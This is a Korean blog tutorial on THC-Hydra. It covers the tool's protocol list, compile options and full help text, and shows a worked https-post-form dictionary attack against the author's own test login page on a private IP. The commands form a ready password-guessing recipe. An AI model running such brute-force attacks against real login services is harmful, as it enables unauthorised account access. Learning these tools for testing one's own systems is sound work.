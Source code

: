 ```yaml
---
layout: post
title: ! "Hydra tool 사용하기"
excerpt_separator: <!--more-->
comments : true
tags:
  - hydra
  - dictionary attack
  - chaem
---
```


Dictionary Attack 이나 Brute force와 같은 공격을 수행할 때 사용하는 공격 툴이다.  
https와 post 까지 지원해서, 잘 사용하면 유용한 툴인듯하다!

<!--more-->

소개에 따르면 다음과 같은 프로토콜을 지원한다고 한다.

```
Currently this tool supports the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.
```

현재 9.0 버전까지 나와있다 ㅎㅎ

hydra-9.0 버전 사용하려면 다음 링크에서 다운로드가 가능하다.  

https://github.com/vanhauser-thc/thc-hydra/releases

kali에 기본적으로 장착되어 있는 툴인듯 하지만, 최신버전을 위해서 나도 깃에서 9.0 버전을 다운받아 사용했다. JQuery로 보내야 했는데, 최신버전이어야 JQuery까지 지원해 주기 때문이당 ㅠ  

hydra-gtk라고 해서 GUI 모드로도 제공해주고 있지만, 나는 그냥 커멘드 형식으로 사용할 것이다.  

위 링크에서 다운로드 받아, 압축을 풀거나 git clone을 하면 여러 파일들이 들어있다.  

그리고 https://github.com/vanhauser-thc/thc-hydra 여기에서 설치방법에 대해서도 소개해 주고 있다.  

./configure --help를 하면 compile 옵션들을 볼 수 있다. 

```
root@kali:~/hydra/thc-hydra-9.0# ./configure --help 
Options:
  --prefix=path              path to install hydra and its datafiles to
  --fhs                      install according to the File System Hierarchy Standard
  --with-oracle=prefix       prefix for oracle include dir
  --with-oracle-lib=prefix   prefix for oracle lib dir
  --with-ssl=prefix          prefix for SSL headers
  --with-ssl-lib=prefix      prefix for SSL libraries
  --disable-xhydra           disable compilation of hydra GUI
  --nostrip                  do not per default strip binaries before install
  --debug                    show debug output to trace errors
  --help                     this here

If the CC environment variable is set, this is used as the compiler for the configure tests. The default is "gcc" otherwise.
```
나는 https-post-form 옵션을 사용해야 했기 때문에 다음과 같은 `./configure --with-ssl=prefix --with-ssl-lib=prefix` 2가지 옵션을 사용하여 컴파일하였다. 

hydra를 실행하는 명령어의 구성은 다음과 같다.  

```
root@kali:~/hydra/thc-hydra-9.0# hydra -h
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [service://server[:PORT][/OPT]]

Options:
  -R        restore a previous aborted/crashed session
  -I        ignore an existing restore file (don't wait 10 seconds)
  -s PORT   if the service is on a different default port, define it here
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -x MIN:MAX:CHARSET  password bruteforce generation, type "-x -h" to get help
  -y        disable use of symbols in bruteforce, see above
  -e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
  -u        loop around users, not passwords (effective! implied with -x)
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -o FILE   write found login/password pairs to FILE instead of stdout
  -b FORMAT specify the format for the -o FILE: text(default), json, jsonv1
  -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -T TASKS  run TASKS connects in parallel overall (for -M, default: 64)
  -w / -W TIME  wait time for a response (32) / between connects per thread (0)
  -c TIME   wait time per login attempt over all threads (enforces -t 1)
  -4 / -6   use IPv4 (default) / IPv6 addresses (put always in [] also in -M)
  -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
  -O        use old SSL v2 and v3
  -q        do not print messages about connection errors
  -U        service module usage details
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs ftp http-{head|get|post} http-{get|post}-form http-proxy http-proxy-urlenum icq imap irc ldap2 ldap3[s] mssql mysql(v4) nntp pcanywhere pcnfs pop3 redis rexec rlogin rpcap rsh rtsp s7-300 smb smtp smtp-enum snmp socks5 teamspeak telnet vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs. Licensed under AGPL
v3.0. The newest version is always available at https://github.com/vanhauser-thc/thc-hydra
Don't use in military or secret service organizations, or for illegal purposes.
These services were not compiled in: afp firebird memcached mongodb mysql5 ncp oracle postgres radmin2 sapr3 ssh sshkey svn SSL-services (ftps, sip, rdp, oracle-services, ...) and regex support.

Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)

Examples:
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

ID와 PW가 전송되는 포맷과 로그인 실패 시 나타나는 문구를 알아야 한다.  

그래서 테스트를 하기위해 테스트 페이지를 하나 만들었다.  

![]({{ site.baseurl }}/images/chaem/hydra/hydra01.JPG)

로그인할때를 burp suite로 보면 전송되는 포맷을 알 수 있다.  

![]({{ site.baseurl }}/images/chaem/hydra/hydra02.png)

![]({{ site.baseurl }}/images/chaem/hydra/hydra03.png)

따라서 필요한 옵션들을 주고, ID 사전 weakuser와 PW 사전 weakpass 파일을 만들어서 다음과 같은 명령어를 사용할 수 있다.
```
root@ubuntu:/home/ubuntu/thc-hydra# ./hydra -f -v -V -I -L "weakuser.txt" -P "weakpass.txt" -s 443 192.168.209.138 https-post-form "/ajax.php:ACCESS=true&id='^USER^'&pw=^PASS^':fail"  
```
명령어를 실행하면 다음과 같이 대입을 시작한다!!  

![]({{ site.baseurl }}/images/chaem/hydra/hydra04.JPG)  

일치하는 결과를 찾았을때는 어떤식으로 보이는지는 추후 추가 예쩡!ㅎㅎ  
